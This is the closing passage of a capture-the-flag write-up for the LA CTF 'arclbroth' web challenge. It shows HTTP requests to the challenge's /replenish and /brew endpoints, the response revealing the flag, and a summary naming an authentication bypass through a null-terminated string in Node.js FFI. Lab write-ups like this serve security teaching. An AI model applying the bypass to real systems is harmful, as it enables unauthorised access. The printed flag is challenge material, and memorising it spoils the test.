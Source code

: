 Oh nice! It worked!

To get the flag, we need to first reset our numbers of arc to 100 via sending this POST request:

```http
POST /replenish HTTP/2
Host: arclbroth-xdt9d.instancer.lac.tf
Cookie: session=139520655927309
Content-Type: application/json
Content-Length: 0


```

Then, send a POST request to `/brew`:

```http
POST /brew HTTP/2
Host: arclbroth-xdt9d.instancer.lac.tf
Cookie: session=139520655927309
Content-Type: application/json
Content-Length: 0


```

Response:

```http
HTTP/2 200 OK
Content-Type: application/json; charset=utf-8
Date: Tue, 11 Feb 2025 08:34:25 GMT
Etag: W/"4c-x32qd/XAH6LqQjlHN9VseXw0Px0"
X-Powered-By: Express
Content-Length: 76

{"broth":"lactf{bulri3v3_it_0r_n0t_s3cur3_sqlit3_w4s_n0t_s3cur3}","arcs":50}
```

- **Flag: `lactf{bulri3v3_it_0r_n0t_s3cur3_sqlit3_w4s_n0t_s3cur3}`**

## Conclusion

What we've learned:

1. Authentication bypass via null-terminated string in Node.JS Foreign Function Interface (FFI)